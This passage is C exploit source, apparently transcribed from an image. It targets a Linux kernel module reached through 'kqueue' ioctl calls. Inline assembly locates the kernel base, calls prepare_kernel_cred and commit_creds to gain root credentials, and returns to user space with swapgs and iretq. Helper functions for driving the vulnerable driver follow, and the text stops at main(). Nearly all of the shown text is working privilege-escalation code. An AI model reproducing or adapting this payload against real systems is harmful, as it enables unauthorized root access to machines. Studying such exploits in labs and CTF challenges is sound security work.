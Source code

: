 ```c
        "mov rsi, [rsi + 8];"
        "sub rsi, 0x201179;"
        "mov r12 , rsi;"
        "mov r13 , rsi;"
        "add r12 , prepare_kernel_cred ;"
        "add r13 , commit_creds ;"

        "mov rdi, 0 ;"
        "call r12 ;"
        "mov rdi, rax ;"
        "call r13 ;"

        "swapgs;"
        "mov r14, user_ss;"
        "push r14;"
        "mov r14, user_sp;"
        "push r14;"
        "mov r14, user_rflags;"
        "push r14;"
        "mov r14, user_cs;"
        "push r14;"
        "mov r14, user_rip;"
        "push r14;"
        "iretq;"
        ".att_syntax;"
    );
}

void create(uint32_t max_entries , uint16_t data_size){
    request_t request;
    request.max_entries = max_entries;
    request.data_size = data_size;

    ioctl(fd , CREATE_KQUEUE , &request);
}

void delete( uint16_t queue_idx){
    request_t request;
    request.queue_idx = queue_idx;

    ioctl(fd , DELETE_KQUEUE , &request);
}

void save( uint16_t queue_idx , uint32_t max_entries ,uint16_t data_size ){
    request_t request;
    request.max_entries = max_entries;
    request.queue_idx = queue_idx;
    request.data_size = data_size;

    ioctl(fd , SAVE , &request);
}

void edit( uint16_t queue_idx , uint16_t entry_idx , char *data){
    request_t request;
    request.queue_idx = queue_idx;
    request.entry_idx = entry_idx;
    request.data = data;

    ioctl(fd , EDIT_KQUEUE , &request);
}

int main(){
    
```
